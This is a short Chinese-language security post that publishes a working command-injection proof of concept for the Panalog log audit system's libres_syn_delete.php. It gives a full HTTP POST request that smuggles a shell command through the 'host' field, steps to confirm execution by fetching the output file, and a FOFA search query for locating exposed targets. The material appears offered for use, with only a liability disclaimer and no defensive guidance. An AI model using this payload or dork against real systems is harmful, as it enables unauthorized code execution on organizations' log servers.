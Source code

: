 #  Panalog日志审计系统 libres_syn_delete.php命令执行漏洞   
小白菜安全  小白菜安全   2024-02-18 19:19  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
**Panalog<= MARS r10p1Free**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1woZiatcMgYibC1jNJGafZpaTzL1KWWb3QDPKYCWhcL1MnQXlQk2C3hwBTGzaQ8rMMOFbhj3o5Ay2Q/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
**poc**  
```
POST /content-apply/libres_syn_delete.php HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 28
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

token=1&id=2&host=|id >1.txt
```  
  
漏洞复现  
1. 出现以下信息代表漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1woZiatcMgYibC1jNJGafZpaP1Tdo1pqC3cGgWByWcRZ00icvr1m8iaNS0zQFARK7klJvEFlvoJticVVQ/640?wx_fmt=png&from=appmsg "")  
  
2.访问代码执行结果url+/content-apply/1.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1woZiatcMgYibC1jNJGafZpagwjUJuyvZsHH1AbKe9GbHCxsS9coknicm6w7FZ6JahrQQSZ3I6uicJTA/640?wx_fmt=png&from=appmsg "")  
# 搜索语法  
  
**fofa：body="js/pad-zeropadding.js" && category="日志分析与审计"**  
  
  
  
